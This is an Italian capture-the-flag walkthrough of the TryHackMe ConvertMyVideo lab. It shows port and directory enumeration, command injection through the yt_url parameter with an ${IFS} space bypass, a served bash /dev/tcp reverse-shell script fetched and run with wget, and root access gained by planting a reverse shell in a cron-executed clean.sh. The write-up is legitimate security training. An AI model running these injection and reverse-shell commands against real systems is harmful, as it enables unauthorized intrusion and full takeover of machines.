

# ConvertMyVideo

Link: [`https://tryhackme.com/room/convertmyvideo`](https://tryhackme.com/room/convertmyvideo)
IP: `cmv.lab` 

Partiamo come sempre con l’enumerare i servizi aperti nella macchina.

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ sudo nmap -sS -sV -sC -O -p- cmv.lab      
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-21 20:58 +0200
Nmap scan report for cmv.lab (10.129.149.34)
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=10/21%OT=22%CT=1%CU=40060%PV=Y%DS=3%DC=I%G=Y%TM=6AD90B
OS:7D%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=105%TI=Z
OS:%CI=Z%II=I%TS=A)SEQ(SP=FE%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8S
OS:T11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M
OS:4E8ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y
OS:%T=40%W=F507%O=M4E8NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=
OS:)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
OS:0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=
OS:164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.74 seconds

```

| Servizio | Porta | Versione | Note |
| --- | --- | --- | --- |
| SSH | 22 | OpenSSH 7.6p1 |  |
| HTTP | 80 | Apache httpd 2.4.29 |  |

Eseguiamo un enumerazione dei percorsi disponibili nella pagina web

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ gobuster dir -u http://cmv.lab/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cmv.lab/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 272]
.hta.txt             (Status: 403) [Size: 272]
.hta.php             (Status: 403) [Size: 272]
.htaccess.php        (Status: 403) [Size: 272]
.hta.bak             (Status: 403) [Size: 272]
.htaccess            (Status: 403) [Size: 272]
.htpasswd            (Status: 403) [Size: 272]
.htaccess.bak        (Status: 403) [Size: 272]
.htaccess.txt        (Status: 403) [Size: 272]
.htpasswd.php        (Status: 403) [Size: 272]
.htpasswd.txt        (Status: 403) [Size: 272]
.htpasswd.bak        (Status: 403) [Size: 272]
admin                (Status: 401) [Size: 454]
images               (Status: 301) [Size: 303] [--> http://cmv.lab/images/]
index.php            (Status: 200) [Size: 747]
index.php            (Status: 200) [Size: 747]
js                   (Status: 301) [Size: 299] [--> http://cmv.lab/js/]
server-status        (Status: 403) [Size: 272]
tmp                  (Status: 301) [Size: 300] [--> http://cmv.lab/tmp/]
Progress: 19000 / 19000 (100.00%)

```

Sono presenti di pagine interessanti solo `/admin` e `/tmp` accessibili solo però con autorizzazioni.

Questa invece è la dashboard



Inviando una qualsiasi richiesta, come `test`  veidamo che viene concatenata con un url che viene però passato durante la creazione della `POST` noi con `Burp Suite` possiamo modificarne il comportamento!


Se noi proviamo a concatenare a `test` un apice `'` otteniamo un errore diverso.


Questo significa che il parametro che passiamo, viene passato a un eseguibile `bash` 


Si aspetta quindi un url, creo un file `bash` 

```basic
yt_url=http://192.168.142.32:8000/shell.sh
```

Con risposta

```basic
{"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nWARNING: Falling back on generic information extractor.\nWARNING: URL could be a direct video link, returning it as such.\nERROR: requested format not available\n","url_orginal":"http:\/\/192.168.142.32:8000\/shell.sh","output":"[generic] shell: Requesting header\n[generic] shell: Downloading webpage\n","result_url":"\/tmp\/downloads\/6ad915ef71b5e.mp3"}
```

Ed effettivamente se guardiamo, lo sta scaricando

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ nano shell.sh
                                                                                                       
kali@kali:~/Desktop/CTF/ConvertMyVideo$ cat shell.sh     
#!/bin/bash

bash -i >& /dev/tcp/192.168.142.32/4444 0>&1
                                                                                                       
kali@kali:~/Desktop/CTF/ConvertMyVideo$ chmod 777 shell.sh 
                                                                                                       
kali@kali:~/Desktop/CTF/ConvertMyVideo$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.130.175.234 - - [21/Oct/2026 21:43:45] "HEAD /shell.sh HTTP/1.1" 200 -
10.130.175.234 - - [21/Oct/2026 21:43:45] "GET /shell.sh HTTP/1.1" 200 -

```

Guardando però la pagina restituita otteniamo `404` 

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ curl http://cvm.lab/tmp/downloads/6ad915ef71b5e.mp3
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at cvm.lab Port 80</address>
</body></html>
                                 
```

Quindi ricapitolando, credo che il programma faccia un qualcosa del genere

`yt-dlp <input> -o /tmp/downloads/xxxxxxxxxxx.mp3` 

Infatti possiamo vedere che è proprio così attraverso questa query

```basic
yt_url=;whoami;
```

Che restituisce

```basic
{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\nsh: 1: -f: not found\n","url_orginal":";whoami;","output":"www-data\n","result_url":"\/tmp\/downloads\/6ada62255a0ed.mp3"}
```

Sta effettivamente eseguendo codice `bash` arbitrario… potremo inserirci una *reverse shell.* 

Eseguendo diversi comandi tra cui `yt_url=;whoami;` , `yt_url=;ls;` 

Vediamo che è utente `www-data` e vede diverse cartelle tra cui `admin, images, ntmp,njs` e alcuni file `index.php, style.css,`

Il *backend* blocca gli spazi quindi comandi come `ls -al` vengono troncati in `ls` . Aiutandomi con deepseek però ho scopero l’esistenza di `${IFS}` una variabile d’ambiente della shell che serve per spezzare le parole a differenza dello spazio (con un analisi post questa conoscenza, ho appurato che il backend considera separate le parole solo con carattere spazio `%20` quindi anche premere TAB da lo stesso funzionamento di `${IFS}`.

Quindi ho creato un file `shell.sh` su Kali e l’ho servito sulla porta `8000` 

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ cat shell.sh                           
#!/bin/bash

bash -i >& /dev/tcp/192.168.142.32/4444 0>&1

```

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.176.107 - - [22/Oct/2026 21:55:22] "GET /shell.sh HTTP/1.1" 200 -
```

Facendolo quindi scaricare ed eseguire 

```basic
yt_url=;wget${IFS}http://192.168.142.32:8000/shell.sh${IFS}-O${IFS}/tmp/s;bash${IFS}/tmp/s;:
```

Instaurando con successo una reverse shell.

```basic
kali@kali:~$ nc -lvnp 4444                 
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.176.107] 48694
bash: cannot set terminal process group (909): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ whoami
whoami
www-data
```

Guardando con `LinPeas` 

```basic
══╣ Polkit Binary (T1548.003,T1068)
Pkexec binary found at: /usr/bin/pkexec                                                                                                                                                                           
Pkexec binary has SUID bit set!
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
pkexec version 0.105
CVE-2021-4034 candidate: root-owned SUID pkexec with older upstream version; verify distro package fixes and mitigations
```

Interessante..

Usando `pspy64` notiamo che ogni tanto root esegue `2026/10/22 20:30:01 CMD: UID=0     PID=26794  | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh` 

Processo da noi modificabile

```basic
www-data@dmv:/var/www/html/tmp$ ls -al
total 3044
drwxr-xr-x 2 www-data www-data    4096 Oct 22 20:29 .
drwxr-xr-x 6 www-data www-data    4096 Oct 22 20:22 ..
-rw-r--r-- 1 www-data www-data      17 Apr 12  2020 clean.sh

```

Ci inseriamo quindi dentro una reverse shell, così quando root esegue si connette

```basic
kali@kali:~/Desktop/CTF/ConvertMyVideo$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.176.107] 59328
bash: cannot set terminal process group (26816): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# 
```